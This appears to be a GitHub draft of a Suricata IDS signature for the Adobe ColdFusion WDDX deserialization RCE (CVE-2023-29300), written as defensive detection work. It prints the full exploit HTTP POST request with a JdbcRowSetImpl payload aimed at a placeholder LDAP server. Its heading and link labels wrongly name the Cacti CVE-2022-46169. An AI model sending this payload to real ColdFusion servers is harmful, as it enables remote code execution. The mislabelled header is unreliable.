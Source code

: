 # ET Open Submission (Return from PCRE grave)
### May 1st, 2024
### CVE-2022-46169 (Cacti Unathenticated RCE) Detected


![8olo1g](https://github.com/eatinsundip/Suricata/assets/43767555/aadafd56-30f9-4747-bb3e-2d78dcfa22f4)


## Resources

1. [https://github.com/taythebot/CVE-2022-46169](https://github.com/vulhub/vulhub/tree/master/coldfusion/CVE-2023-29300)
2. [https://github.com/lal0ne/vulnerability/tree/main/Cacti/CVE-2022-46169](https://blog.projectdiscovery.io/adobe-coldfusion-rce/)


## Signature

```alert http $EXTERNAL_NET any -> $HOME_NET any (msg:"Adobe ColdFusion XML Deserialization Leads to RCE (CVE-2023-29300)"; flow:to_server,established; http.method; content:"POST"; http.uri; content:"/CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true"; http.request_body; content:"argumentCollection|3d 3c|wddxPacket|20|version|3d 27|1|2e|0|27 3e 3c|header|2f 3e 3c|data|3e 3c|struct|20|type|3d 27|xcom|2e|sun|2e|rowset|2e|JdbcRowSetImplx|27 3e 3c|var|20|name|3d 27|dataSourceName|27 3e 3c|string|3e|ldap|3a 2f 2f|"; pcre:"/^.{3,100}/"; content:"|3c 2f|string|3e 3c 2f|var|3e 3c|var|20|name|3d 27|autoCommit|27 3e 3c|boolean|20|value|3d 27|true|27 2f 3e 3c 2f|var|3e 3c 2f|struct|3e 3c 2f|data|3e 3c 2f|wddxPacket|3e|"; sid:1; rev:1; metadata:attack_target Server, created_at 2022_01_04, deployment Perimeter, deployment Internal, former_category EXPLOIT, signature_severity Major, tag Exploit, updated_at 2023_01_04;)```

^^ Still needs editing and a fast_pattern

[Job-CVE-2023-29300.zip](https://github.com/eatinsundip/Suricata/files/15173814/flowsynth-CVE-2023-29300.zip)

[https://dalton.securitymidwest.net/dalton/job/3cbf2c602f167d02](https://dalton.securitymidwest.net/dalton/job/3cbf2c602f167d02)


The exploit itself:


POST /CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.134 Safari/537.36
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 333


argumentCollection=<wddxPacket version='1.0'><header/><data><struct type='xcom.sun.rowset.JdbcRowSetImplx'><var name='dataSourceName'><string>ldap://your.ldap.server/example</string></var><var name='autoCommit'><boolean value='true'/></var></struct></data></wddxPacket>


Breaking down this post request
	• Http.method
		○ POST
	• I plan to test headers manually with the exploit to see if they are required or not. I doubt they are so they are not added right now.
	• Http.uri
		○ /CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true
	• Http.request_body
		○ argumentCollection=<wddxPacket version='1.0'><header/><data><struct type='xcom.sun.rowset.JdbcRowSetImplx'><var name='dataSourceName'><string>ldap://
		○ PCRE for any ldap server name or possible IP. I chose I very broad pcre for this.
		○ </string></var><var name='autoCommit'><boolean value='true'/></var></struct></data></wddxPacket>

CURRENT ALERT:

alert http $EXTERNAL_NET any -> $HOME_NET any (msg:"Adobe ColdFusion XML Deserialization Leads to RCE (CVE-2023-29300)"; flow:to_server,established; http.method; content:"POST"; http.uri; content:"/CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true"; http.request_body; content:"argumentCollection|3d 3c|wddxPacket|20|version|3d 27|1|2e|0|27 3e 3c|header|2f 3e 3c|data|3e 3c|struct|20|type|3d 27|xcom|2e|sun|2e|rowset|2e|JdbcRowSetImplx|27 3e 3c|var|20|name|3d 27|dataSourceName|27 3e 3c|string|3e|ldap|3a 2f 2f|"; pcre:"/^.{3,100}/"; content:"|3c 2f|string|3e 3c 2f|var|3e 3c|var|20|name|3d 27|autoCommit|27 3e 3c|boolean|20|value|3d 27|true|27 2f 3e 3c 2f|var|3e 3c 2f|struct|3e 3c 2f|data|3e 3c 2f|wddxPacket|3e|"; sid:1; rev:1; metadata:attack_target Server, created_at 2022_01_04, deployment Perimeter, deployment Internal, former_category EXPLOIT, signature_severity Major, tag Exploit, updated_at 2023_01_04;)


## NOTES
Need to test what headers are even necessary in the actual exploit.
